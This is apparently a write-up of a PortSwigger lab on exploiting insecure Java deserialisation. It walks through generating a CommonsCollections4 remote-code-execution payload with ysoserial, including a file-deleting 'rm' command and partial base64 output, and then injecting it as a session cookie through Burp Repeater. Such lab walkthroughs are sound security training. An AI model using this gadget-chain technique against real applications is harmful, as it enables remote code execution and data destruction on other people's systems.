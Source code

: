 # Exploiting Java deserialisation with Apache Commons

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons) uses a serialisation-based session mechanism and loads the Apache Commons Collections library. 

## Reproduction

1. Log in with `wiener:peter`. The session cookie is URL and base64 encoded and contains a serialised Java object (the first two bytes are `aced`). Send a request containing the session cookie to Burp Repeater.
2. Download the [Ysoserial](https://github.com/frohoff/ysoserial) tool, [if need be, make the on kali necessary changes to run it](https://red.tymyrddin.dev/projects/app/en/latest/docs/techniques/id.html##ysoserial-on-kali).
3. Execute the command to generate a Base64-encoded serialised object containing an RCE payload. The application uses Apache Commons Collections library, so use a `CommonsCollections` payload:

```text          
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
...
```

4. In Burp Repeater, replace the session cookie with the malicious one just created. Select the entire cookie and then URL-encode it.
5. Send the request to solve the lab.

## PoC

<iframe title="Exploiting Java deserialisation with Apache Commons" src="https://tube.spdns.org/videos/embed/34965ce1-bcea-4cba-8f97-d90b314d17f6" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

Although attackers do not have source code access, they can still exploit this lab using pre-built gadget chains. An attacker will need to log in; use a third-party tool to generate a malicious serialised object containing a remote code execution payload; and pass this object into the website to delete the `morale.txt` file from Carlos's home directory. 
